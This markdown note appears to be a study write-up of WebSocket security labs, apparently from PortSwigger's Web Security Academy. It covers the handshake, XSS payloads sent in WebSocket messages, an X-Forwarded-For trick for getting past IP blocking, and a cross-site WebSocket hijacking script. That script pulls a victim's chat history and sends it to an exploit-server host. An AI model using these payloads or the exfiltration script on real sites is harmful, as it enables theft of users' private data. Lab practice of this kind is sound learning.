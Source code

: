 # WebSockets
- WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.
- Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.
- To establish the connection, the browser and server perform a WebSocket handshake over HTTP.
  
Request:
 
    GET /chat HTTP/1.1
    Host: normal-website.com
    Sec-WebSocket-Version: 13
    Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
    Connection: keep-alive, Upgrade
    Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
    Upgrade: websocket

Response:

    HTTP/1.1 101 Switching Protocols
    Connection: Upgrade
    Upgrade: websocket
    Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=

Note: 
> - The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.
> - The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.
> - The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request, prevents errors from caching proxies, and is not used for authentication or session handling purposes.
> - The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the `Sec-WebSocket-Key` request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

## Cross-site WebSocket hijacking
Cross-site WebSocket hijacking involves a CSRF vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

### LAB: Manipulating WebSocket messages to exploit vulnerabilities

    Messages are HTML encoded before sending to the server:
    {"message":"&lt;img src=1 onerror=alert()&gt;"}
    Capture the message in WebSockets History and change the message to:
    {"message":"<img src=1 onerror=alert()>"}

### LAB: Manipulating the WebSocket handshake to exploit vulnerabilities

    To avoid IP blocking add X-Forwarded-For header to the handshake 
    and reconnect. XSS payload:
    {"message":"<img src=1 oNERRor=alert`1`>"}

### LAB: Cross-site WebSocket hijacking
Found that:
- The WebSocket handshake remains solely on the client's cookie (no CSRF protection)
- Client sends a 'READY' message to retrieve chat's history

Use this script to make the client establish a WebSocket handshake with the server and sends the 'READY' message to receive his chat's history. Sending the server's response via the parameter in the `GET` request to our listening server:

    <script>
        const wsUrl = "wss://0ae9000d0418732880e8215000f700e2.web-security-academy.net/chat";
        const socket = new WebSocket(wsUrl);

        socket.onopen = function() {
            socket.send("READY");
        };

        socket.onmessage = function(event) {
            location = 'https://exploit-0a65008d04697309805820bc0188001a.exploit-server.net/log?msg=' + encodeURIComponent(event.data);
        };
    </script>